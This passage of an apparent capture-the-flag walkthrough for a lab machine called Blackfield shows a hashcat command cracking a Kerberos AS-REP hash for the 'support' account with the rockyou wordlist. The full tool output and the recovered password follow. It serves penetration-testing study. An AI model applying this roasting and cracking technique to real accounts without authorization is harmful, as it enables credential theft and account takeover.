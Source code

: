 We get the hash for the user `support@BLACKFIELD.LOCAL`. Let us use hashcat to crack the hash.

```bash
hashcat64.exe -m 18200 hashes\blackfield.hash wl\rockyou.txt
hashcat (v5.1.0) starting...

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GTX 1070, 2048/8192 MB allocatable, 15MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Dictionary cache hit:
* Filename..: wl\rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.

$krb5asrep$23$support@BLACKFIELD.LOCAL:13176c7b34c115ff5fa6363c22d5189c$eede10e66163a91892e1b753aec8db6376129ed6062f6ee78a7676bbec9d8279fd621b2443b0d1a06fa440c8aec08d2b0a199bf7eac5cb8332b51a221421998edb2cc4bf1d587433675d72bb34caeb31f90a9db76c3f1740498ff326b6059700616e6a26ca897eb0e2cbfec1623f3b9de6db09ed16e2b32143edbdfbba34037573b66d988c56ce0cbb501741fd2815fa69404619e9115d285bf5b0e4b63980f7232e4a33648442441c65f00daab753ffda08f7dc03a1deb45aa789f95433b6823c76ace79ca128f455c0b5a29de19f5b78a4e9d26e1bd60e9e158c8f24a9fa2b3aacdf8c02da2274877cab14213552fef1c1890e:#00^BlackKnight

Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$support@BLACKFIELD.LOCAL:13176c7b34c1...c1890e
Time.Started.....: Sun Oct 04 11:00:55 2020 (3 secs)
Time.Estimated...: Sun Oct 04 11:00:58 2020 (0 secs)
Guess.Base.......: File (wl\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  6657.2 kH/s (7.14ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 0/14344385 (0.00%)
Restore.Point....: 14254080/14344385 (99.37%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[30313030363636] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Temp: 49c Fan:  0% Util: 21% Core:1797MHz Mem:4104MHz Bus:16

Started: Sun Oct 04 11:00:45 2020
Stopped: Sun Oct 04 11:00:58 2020
```
